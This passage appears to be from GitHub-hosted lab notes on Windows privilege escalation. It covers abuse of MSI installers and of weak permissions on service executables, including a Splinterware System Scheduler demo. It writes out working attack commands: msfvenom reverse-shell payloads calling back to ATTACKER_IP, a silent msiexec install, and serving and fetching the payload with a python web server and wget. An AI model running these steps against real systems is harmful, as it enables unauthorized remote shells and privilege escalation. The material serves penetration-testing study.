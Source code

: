     msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKING_10.10.73.160 LPORT=LOCAL_PORT -f msi -o malicious.msi
    ```  
    As this is a reverse shell, you should also run the Metasploit Handler module configured accordingly. Once you have transferred the file you have created, you can run the installer with the command below and receive the reverse shell:
    ```
    C:\> msiexec /quiet /qn /i C:\Windows\Temp\malicious.msi
    ```
    </details>

### Abusing Service Misconfigurations

- Windows Services  
    Windows services are managed by the Service Control Manager (SCM).  
    Check the apphostsvc service configuration: `sc qc`  
    <img src="https://user-images.githubusercontent.com/73976100/224518364-43ea9a1a-9c6b-4274-b93b-d474947a5207.png" width="600">  
    `BINARY_PATH_NAME`: associated executable  
    `SERVICE_START_NAME`: account used to run the service  

    Services have a Discretionary Access Control List (DACL), which indicates who has permission to start, stop, pause, query status, query configuration, or reconfigure the service, amongst other privileges. The DACL can be seen from Process Hacker.   
    <img src="https://user-images.githubusercontent.com/73976100/224518545-5d997e56-b2f2-423a-8702-f9e800a29395.png" width="300">  

    All of the services configurations are stored on the registry under `HKLM\SYSTEM\CurrentControlSet\Services\`:  
    <img src="https://user-images.githubusercontent.com/73976100/224518708-d0876272-4a33-4c95-8b6a-ff4bc061bc94.png" width="600">

- Insecure Permissions on Service Executable   
    If the executable associated with a service has weak permissions that allow an attacker to modify or replace it, the attacker can gain the privileges of the service's account trivially.  
    <details>
    <summary>DEMO</summary>

    let's look at a vulnerability found on Splinterware System Scheduler.  
    <img src="https://user-images.githubusercontent.com/73976100/224519020-ca6a3494-48c6-4607-a27c-c7fc695d0d2d.png" width="600">  
    svcuser1: service installed by the vulnerable software  
    `C:\Progra~2\System~1\WService.exe`: executable associated with the service  

    <img src="https://user-images.githubusercontent.com/73976100/224519275-269d8467-36cf-4084-b451-6621efd83f0c.png" width="600">  

    The Everyone group has modify permissions (M) on the service's executable. This means we can simply overwrite it with any payload of our preference, and the service will execute it with the privileges of the configured user account.  

    Let's generate an exe-service payload using msfvenom and serve it through a python webserver:  
    ```
    user@attackerpc$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4445 -f exe-service -o rev-svc.exe

    user@attackerpc$ python3 -m http.server
    Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
    ```  
    We can then pull the payload from Powershell with the following command:  
    ```
    wget http://ATTACKER_IP:8000/rev-svc.exe -O rev-svc.exe
    ```  
    Once the payload is in the Windows server, we proceed to replace the service executable with our payload. Since we need another user to execute our payload, we'll want to grant full permissions to the Everyone group as well:  
    <img src="https://user-images.githubusercontent.com/73976100/224520014-770e05e2-b4f0-42b7-a9a0-886cedff698e.png" width="600">  
